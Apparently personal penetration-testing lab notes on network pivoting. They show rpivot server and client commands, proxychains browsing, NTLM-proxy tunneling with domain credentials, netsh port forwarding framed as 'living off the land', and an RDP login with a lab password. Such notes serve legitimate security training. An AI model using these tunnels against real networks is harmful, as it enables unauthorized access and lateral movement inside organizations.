 #### Running server.py from the Attack Host
```Shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

#### Transferring rpivot to the Target
```Shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target
```Shell
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

#### Browsing to the Target Webserver using Proxychains
```Shell
proxychains firefox-esr 172.16.5.135:80
```

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```Shell
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password.


## Port Forwarding with Windows Netsh

Good tool to use if you want to live off the land and/or can't upload any scripts

![[Pasted image 20230309125028.png]]

#### Using Netsh.exe to Port Forward
```cmd.exe
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

#### Verifying Port Forward
```cmd.exe
netsh.exe interface portproxy show v4tov4
```

#### Connecting to the Internal Host through the Port Forward
```Shell
xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
```
